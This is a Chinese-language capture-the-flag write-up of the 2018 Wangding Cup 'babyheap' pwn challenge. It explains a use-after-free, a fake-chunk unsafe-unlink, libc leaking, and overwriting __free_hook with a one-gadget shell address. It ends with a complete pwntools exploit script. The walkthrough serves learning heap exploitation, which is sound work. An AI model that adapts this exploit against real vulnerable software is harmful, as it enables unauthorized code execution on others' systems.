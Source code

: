 # 2018网鼎杯 pwn --babyheap

题目有四个功能 new   edit    show    delete

![屏幕截图(58)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(58).png)

delete函数中 free存在指针没置零，可以造成UAF

![1](F:\2018网鼎杯\babyheap_50dc3a21597ea49ed06895a2bcc77684\babyheap\1.png)

其中特别注意  块只能建9块   修改只能改3次



## 利用思路

目标是利用ibc base地址加偏移值得到free_hook的地址，并修改里面的内容为system('\bin\sh')，再执行free()操作，实质是执行getshell。

### 第一步 得到heap_base地址 

​	目标是得到libcbase，但是题目规定malloc chunk的大小为0x20，所以我们要fake一个大点的chunk，再把它free掉，让它分配到unsortedbin中，当一个chunk在unsortedbin中时，它的fd就会指向main_arena。

​	由于UAF的漏洞存在，我们这时去show这个chunk就会把它fd的内容打印出来。

​	为了fake chunk我们需要知道heap的地址，那就so easy啦

​	连续free两个chunk，第二个的fd便是第一个地址

![屏幕截图(60)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(60).png)

### 第二步 求出libc base地址

​	知道heapbase，我们开始构造fake chunk：

edit(0,p64(heap+0x20)+p64(0)+p64(0)+p64(0x31))

​	修改fd，因为之前free了两个块，当new一个新块时，会先在旧的里面循环利用，后free先new并将new的块中的fd作为下次new的块地址。

​	简单的说，先new一个块放在chunk0中，按照chunk0中的fd（我们修改为heap+0x20），即再new时，会把新块放在heap+0x20中，但还要考虑到一个问题，当你new到某个旧块时，操作系统会检查旧块的size，如果不匹配，抱歉gg。所以还要fake chunk头，就是后面的(0x0  0x31)。

alloc(6,p64(0)+p64(0xa1)+'\n')

​	new一个新块6放到chunk0中，我多想了，就是回车，哈哈哈xxxxxx后面的'\n'是截断，后面我们的fake chunk头(0x0  0x31)就不会清空了xxxxxx

alloc(7,p64(0)+p64(0xa1)+'\n')

​	new第二个新块，p64(0)+p64(0xa1)刚好覆盖掉chunk1的头，厉害厉害

![屏幕截图(61)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(61).png)

​	万事俱备，只欠一free，在free之前，我们还要学习一点厉害的东西——unlink

​	当free一个chunk时，系统会检测前一个chunk和后一个chunk是否为free，每个chunk的头都有prev_size和size，当前一个chunk为free，prev_size为前chunk的大小，并且size的flag位为0，否则prev_size为0，size的flag为1。 free chunk1时，chunk1头的prev_size为0，size为0xa1,flag位为1，即前一chunk不为free，chunk1位置加它的size，即加0xa1，到达下一chunk4，看chunk5的头（0x30,0x30）prev_size为0x30，size为0x30，flag位为0，表示chunk5的前一个chunk4为free，则chunk1和chunk4合并，p指针指向chunk4。 进行unlink操作，unlink操作要检查p->fd->bk ==  p,  p->bk->fd == p。我们在chunk4构造了fd和bk，0x602080是chunk4的ptr，p->fd->bk 即 0x602068+0x18=0x602080 刚好指向 chunk4，p->bk->fd 即 0x602070+0x10 = 0x602080，通过验证。完成unlink操作后，chunk4的指针内容改为0x602068 即chunk4的地址在chunk1的指针地址，修改chunk4内容即修改chunk1的地址，然后修改chunk1达到 任意地址写。

![屏幕截图(68)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(68).png)

free chunk1完成后，chunk1的fd指向main_arena

​	![屏幕截图(62)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(62).png)

![屏幕截图(63)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(63).png)

求出libc_adr和main_arena偏移值：0x7fa0dfc6db78 - 0x7fa0fd8d2000 = 0x39bb78

注意这只是我的机器的偏移值，并不是靶机的偏移值

求靶机偏移值，利用malloc_hook的偏移差值

![屏幕截图(64)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(64).png)

我机malloc_hook偏移：0x7fa0dfc6db10 - 0x7fa0fd8d2000 = 0x39bb10

靶机malloc_hook偏移：0x3c4b10

差值：0x3c4b10 - 0x39bb10 = 0x29000

靶机libc_addr和main_arena偏移：0x39bb78 + 0x29000 = 0x3c4b78

### 第三步 写入shellocode并执行

​	![屏幕截图(66)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(66).png)

往free_hook中写入shellcode，再执行free()操作，等于执行getshell，上图显示 free_hook的偏移值为0x3c67a8，shellcode地址的偏移值为0x45216

![屏幕截图(68)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(68).png)

修改chunk4的内容为free_hook的地址，等于把chunk1块指向free_hook，修改chunk1就等于修改free_hook的内容。

修改chun1内容为shellcode地址，即修改free_hook内容为shellcode地址，这里我改为aaaaaaaa滑稽

![屏幕截图(69)](C:\Users\kOX\Pictures\Screenshots\屏幕截图(69).png)

执行free，就会getshell了。

exp:

```python
from pwn import *
import sys

def alloc(idx,content):
	r.recvuntil("Choice:")
	r.sendline("1")
	r.recvuntil("Index:")
	r.sendline(str(idx))
	r.recvuntil("Content:")
	r.send(content)

def edit(idx,content):
	r.recvuntil("Choice:")
	r.sendline("2")
	r.recvuntil("Index:")
	r.sendline(str(idx))
	r.recvuntil("Content:")
	r.send(content)

def show(idx):
	r.recvuntil("Choice:")
	r.sendline("3")
	r.recvuntil("Index:")
	r.sendline(str(idx))

def free(idx):
	r.recvuntil("Choice:")
	r.sendline("4")
	r.recvuntil("Index:")
	r.sendline(str(idx))

def exploit(r):
	alloc(0,'aaaaaaaa\n')
	alloc(1,'bbbbbbbb\n')
	alloc(2,'cccccccc\n')
	alloc(3,'dddddddd\n')
	alloc(4,p64(0)+p64(0x31)+p64(0x602080-0x18)+p64(0x602080-0x10))
	alloc(5,p64(0x30)+p64(0x30)+'\n')
	free(1)
	free(0)
	show(0)
	heap = u64(r.recvline()[:-1].ljust(8,'\x00'))-0x30
	print hex(heap)
	edit(0,p64(heap+0x20)+p64(0)+p64(0)+p64(0x31))
	alloc(6,p64(0)+p64(0xa1)+'\n')
	alloc(7,p64(0)+p64(0xa1)+'\n')
	free(1)
	show(1)
	libcaddr = u64(r.recvline()[:-1].ljust(8,'\x00'))-0x3c4b78
	edit(4,p64(libcaddr+0x3c67a8)+'\n')
	edit(1,p64(libcaddr+0x45216)+'\n')
	r.interactive()
	return

r = process("./babyheap")
#r = remote()
print util.proc.pidof(r)
pause()
exploit(r)

```




